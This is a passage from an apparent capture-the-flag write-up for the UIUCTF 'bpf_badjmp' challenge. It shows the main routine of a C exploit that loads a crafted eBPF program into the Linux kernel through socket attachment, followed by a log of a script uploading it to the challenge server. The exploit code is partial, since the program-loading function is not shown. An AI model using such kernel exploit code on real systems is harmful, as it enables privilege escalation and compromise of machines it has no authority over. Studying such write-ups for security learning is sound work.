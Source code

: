 ``` c  
}

int main(int argc,char** argv)  
{  
	_mapfd[0] = bpf_create_map(BPF_MAP_TYPE_ARRAY,4,0x40,0x10,0);  
	_mapfd[1] = bpf_create_map(BPF_MAP_TYPE_ARRAY,4,0x40,0x10,0);  
	uint64_t result=0;  
	int key;  
	char buf[0x80] = {0};  
	uint64_t addr = strtoul(argv[1], NULL, 16);  
	int progfd = load_prog(addr);  
	if (progfd < 0)  
	{  
		if (errno == EACCES)  
		{  
			msg("log:\n%s", bpf_log_buf);  
		}  
		printf("%s\n", bpf_log_buf);  
		fail("failed to load prog '%s'\n", strerror(errno));  
	}  
	printf("loaded\n");

	if (socketpair(AF_UNIX, SOCK_DGRAM, 0, sockets))  
	{  
		fail("failed to create socket pair '%s'\n", strerror(errno));  
	}

	if (setsockopt(sockets[1], SOL_SOCKET, SO_ATTACH_BPF, &progfd, sizeof(progfd)) < 0)  
	{  
		fail("setsockopt '%s'\n", strerror(errno));  
	}

	write_msg(sockets[0]);  
	printf("Done\n");  
	key = 0;  
	bpf_lookup_elem(_mapfd[0], &key, &buf;;  
	printf("res: %s\n", buf);  
}  
```  
Run to remote server using script, and get the flag.  
```bash  
➜  bpf_badjmp git:(master) ✗ ./build.sh  
➜  bpf_badjmp git:(master) ✗ python3 send.py  
[+] Opening connection to bpf-badjmp.chal.uiuc.tf on port 1337: Done  
[*] touch /tmp/a.gz.b64  
[*] Sending chunk 0/35  
[*] Sending chunk 1/35  
[*] Sending chunk 2/35  
[*] Sending chunk 3/35  
[*] Sending chunk 4/35  
[*] Sending chunk 5/35  
[*] Sending chunk 6/35  
[*] Sending chunk 7/35  
[*] Sending chunk 8/35  
[*] Sending chunk 9/35  
[*] Sending chunk 10/35  
[*] Sending chunk 11/35  
[*] Sending chunk 12/35  
[*] Sending chunk 13/35  
[*] Sending chunk 14/35  
[*] Sending chunk 15/35  
[*] Sending chunk 16/35  
[*] Sending chunk 17/35  
```